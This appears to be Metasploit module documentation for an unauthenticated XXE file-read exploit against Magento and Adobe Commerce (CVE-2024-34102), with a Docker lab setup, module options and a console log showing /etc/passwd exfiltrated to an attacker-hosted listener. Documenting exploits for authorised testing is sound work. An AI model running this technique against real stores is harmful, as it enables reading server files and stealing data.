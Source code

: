 ## Vulnerable Application

### Description

An unauthenticated user can read arbritraty file from Magento Community edition version 2.4.0 to 2.4.3.
The vulnerability is due to the lack of input validation in the XML file. An attacker can exploit this
vulnerability by sending a specially crafted XML file to the target server. The attacker can read any file on the server.

On June 27, 2024, Adobe released a software update that addressed this vulnerability (CVE-2024-34102).

The following products are affected:

- Adobe Commerce: versions before:      2.4.7; 2.4.6-p5; 2.4.5-p7; 2.4.4-p8; 2.4.3-ext-7 ; 2.4.2-ext-7
- Magento Open Source: versions before: 2.4.7; 2.4.6-p5; 2.4.5-p7; 2.4.4-p8
- Adobe Commerce Webhooks Plugin: versions 1.2.0 to 1.4.0

### Exploitation

This module exploits the XXE vulnerability in Magento by following these steps:

- Creating a DTD File: This file includes entities that will read and encode `FILE`, then send it to your endpoint.

- Host the DTD File: Serve the dtd.xml file, accessible via HTTP `SRVHOST` on port `SRVPORT`.

- Craft the HTTP Request: Craft the XML payload which will include the DTD file hosted on your server.

- Execute a HTTP Request: Send the crafted XML payload to the target server.

- Capture the Exfiltrated Data: The exfiltrated data will be sent back to the attacker in a HTTP GET request and them saved in the loot.



### Setup

Create a `docker-compose.yml` file as below:

```yml
version: '2'
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'mariadb_data:/bitnami/mariadb'
  magento:
    image: docker.io/bitnami/magento:2
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  mariadb_data:
    driver: local
  magento_data:
    driver: local
  elasticsearch_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```


## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the Magento (Default: `/`).

### SRVHOST (required)

The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.

### SRVPORT (required)

The local port to listen on.

## Scenarios

### Docker container running Magento Community edition version 2.4

```
Module options (exploit/multi/http/magento_xxe_cve_2024_34102):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILE       /etc/passwd      yes       The file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    192.168.128.1    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST      localhost        no        HTTP server virtual host
```

```   
msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://192.168.128.1:8080/
[*] Sending XXE request
[*] Received request for DTD file from 192.168.144.4
[+] Received file /etc/passwd content
[+] File saved in: /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt

msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > cat /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt
[*] exec: cat /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > 
```
